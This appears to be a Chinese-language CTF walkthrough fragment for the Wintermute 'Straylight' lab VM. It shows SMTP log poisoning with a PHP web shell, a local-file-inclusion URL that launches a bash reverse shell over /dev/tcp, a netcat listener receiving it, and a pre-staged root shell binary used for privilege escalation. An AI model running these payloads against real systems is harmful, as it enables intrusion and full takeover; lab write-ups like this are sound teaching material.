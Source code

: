 # 重新配置

这里网卡扫完以后，发现有的没扫到，重新配置了一下靶机，如果成功了，后面再把配置贴进来。

因为要重新配置一遍靶场，将之前的步骤变成简易的命令：

```bash
telnet 10.161.61.130 25
HELO ctfer
MAIL FROM: ctfer@gmail.com
RCPT TO: wintermute
subject: <?php system($_REQUEST['ctf']);?>
.
quit
http://10.161.61.130/turing-bolo/bolo.php?bolo=/var/log/mail&ctf=bash+-c+%22bash+-i+%3e%26+%2fdev%2ftcp%2f10.161.61.128%2f1234+0%3e%261%22
```

```bash
┌──(kali㉿kali)-[/tmp]
└─$ nc -lvnp 1234
listening on [any] 1234 ...
connect to [10.161.61.128] from (UNKNOWN) [10.161.61.130] 45876
bash: cannot set terminal process group (642): Inappropriate ioctl for device
bash: no job control in this shell
www-data@straylight:/var/www/html/turing-bolo$ cd /tmp
cd /tmp
www-data@straylight:/tmp$ ls
ls
41154.sh
libhax.so
rootshell
screens
vGdtL8p
www-data@straylight:/tmp$ ./rootshell
./rootshell
whoami;id
root
uid=0(root) gid=0(root) groups=0(root),33(www-data)
python -c "import pty;pty.spawn('/bin/bash')"
root@straylight:/tmp# ifconfig
ifconfig
enp0s3: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.161.61.130  netmask 255.255.255.0  broadcast 10.161.61.255
        inet6 fe80::a00:27ff:fe8f:6d52  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:8f:6d:52  txqueuelen 1000  (Ethernet)
        RX packets 5311  bytes 484772 (473.4 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 1186  bytes 82951 (81.0 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

enp0s8: flags=4163<UP,BROADCAST,RUNNING,MULTICAST>  mtu 1500
        inet 10.0.2.5  netmask 255.255.255.0  broadcast 10.0.2.255
        inet6 fe80::a00:27ff:fe79:202d  prefixlen 64  scopeid 0x20<link>
        ether 08:00:27:79:20:2d  txqueuelen 1000  (Ethernet)
        RX packets 55  bytes 8493 (8.2 KiB)
        RX errors 0  dropped 0  overruns 0  frame 0
        TX packets 70  bytes 6905 (6.7 KiB)
        TX errors 0  dropped 0 overruns 0  carrier 0  collisions 0

lo: flags=73<UP,LOOPBACK,RUNNING>  mtu 65536
        inet 127.0.0.1  netmask 255.0.0.0
        inet6 ::1  prefixlen 128  scopeid 0x10<host>
        loop  txqueuelen 1  (Local Loopback)
```